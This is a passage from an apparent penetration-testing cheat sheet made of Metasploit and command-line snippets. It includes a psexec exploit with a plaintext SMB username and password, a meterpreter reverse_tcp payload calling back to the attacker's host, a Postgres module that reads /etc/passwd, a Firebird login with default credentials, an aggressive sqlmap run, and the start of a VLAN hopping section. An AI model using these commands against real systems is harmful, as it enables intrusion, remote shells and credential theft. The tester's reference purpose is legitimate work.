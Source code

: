 msf exploit(psexec) > set SMBUser nta007
SMBUser => nta007
msf exploit(psexec) > set SMBPass m0nitoR123*
SMBPass => m0nitoR123*
msf exploit(psexec) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST <our-ip>
LHOST => <our-ip>
msf exploit(psexec) > exploit
{% endhighlight %}

Clean Track

{% highlight PowerShell %}
msf  auxiliary(oracle_sql) > set SQL "REVOKE DBA FROM <user>"
SQL => REVOKE DBA FROM <user>
msf  auxiliary(oracle_sql) > run
{% endhighlight %}

## Postgres

identify the postgres user

{% highlight PowerShell %}
auxiliary/scanner/postgres/postgres_login
{% endhighlight %}

use the readfile module to read /etc/passwd

{% highlight PowerShell %}
auxiliary/admin/postgres/postgres_readfile
{% endhighlight %}

## Firebird

{% highlight PowerShell %}
isql -u sysdba -p masterkey "hostname:C:/path/to/Database/database.fdb"
{% endhighlight %}

## SQL Injection

{% highlight PowerShell %}
sqlmap.py -u 'http://www.target.com' --random-agent --dbms=MSSQL --level=5 --risk=3 -b -- passwords --crawl=10
{% endhighlight %}

# VLAN HOPPING

Set interface

{% highlight PowerShell %}
ip link set dev <interface> up
{% endhighlight %}
